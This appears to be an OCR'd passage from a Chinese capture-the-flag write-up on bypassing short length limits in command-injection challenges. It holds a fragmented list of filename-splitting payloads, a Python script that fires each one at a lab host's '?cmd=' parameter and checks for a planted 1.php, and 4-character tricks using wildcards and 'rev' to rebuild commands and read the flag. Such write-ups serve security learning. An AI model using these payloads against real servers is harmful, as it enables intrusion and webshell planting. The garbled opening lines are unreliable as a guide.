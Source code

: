     >gZ\\
    >A\\
    >aH\\
    >w\\
    >D9\\
    >P\\
    >S}\\
    >IF\\
    >{\\
    >\$\\
    >o\\
    >ch\\
    >e\\
    sh 0
    sh f            
    ```

    复制

    ```
    #!/usr/bin/python
    # -*- coding: UTF-8 -*-
    import requests
    url = "http://192.168.61.157/?cmd={0}"
    print("[+]start attack!!!")
    with open("payload.txt","r") as f:
        for i in f:
            print("[*]" + url.format(i.strip()))
            requests.get(url.format(i.strip()))
    #检查是否攻击成功
    test = requests.get("http://192.168.61.157/1.php")
    if test.status_code == requests.codes.ok:
        print("[*]Attack success!!!")
    ```

- **4字符**

  - 思路1

    传入`>cat`，在目标目录下写入cat文件；

    再使用通配符进行执行`>* /*`，读取根目录下的flag文件。

  - 思路2

    字符拼接

    复制

    ```
    >dir
    >f\>
    >ht-
    >sl
    *>v        (等同于命令：dir "f>" "ht-" "sl" > v)
    >rev
    *v>0        (等同于命令：rev v > 0)(0里面的内容位:ls -th >f)
    sh 0        (sh执行0里面的内容)
    ```
